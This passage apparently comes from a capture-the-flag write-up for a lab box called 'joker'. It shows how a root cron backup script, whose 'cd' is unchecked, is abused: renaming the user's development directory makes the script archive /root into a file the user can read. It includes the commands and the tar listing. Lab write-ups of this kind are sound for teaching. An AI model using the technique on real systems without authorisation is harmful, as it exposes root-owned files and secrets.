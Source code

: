 I always like to look at the automation on boxes. In this case,
`/root/backup.sh` is running every five minutes:



    root@joker:~# crontab -l
    ...[snip]...
    */5 * * * * /root/backup.sh



The script follows:



    root@joker:~# cat backup.sh 
    #!/bin/sh

    FILENAME="dev-$(date +%s).tar.gz"

    cd /home/alekos/development;
    tar cf /home/alekos/backup/$FILENAME *;
    chown root:alekos /home/alekos/backup/$FILENAME;
    chmod 640 /home/alekos/backup/$FILENAME;



It changes into the `development` directory, runs `tar cf` on `*`, then
changes the owner, group, and permissions.

But what if that first `cd` fails? The directory would stay in `/root`,
and then it would run `tar cf` to compress everything and drop the
archive into the same filename.

#### Exploit

I'll move the `development` directory to something else:



    alekos@joker:~$ mv development{,.orig}
    alekos@joker:~$ ls
    backup  development.orig  user.txt



Now when a new archive is created, it has the contents of `/root`:



    alekos@joker:~/backup$ tar tvf dev-1596506401.tar.gz 
    -rwx------ root/root       205 2017-05-18 19:25 backup.sh
    -r-------- root/root        33 2017-05-19 17:57 root.txt







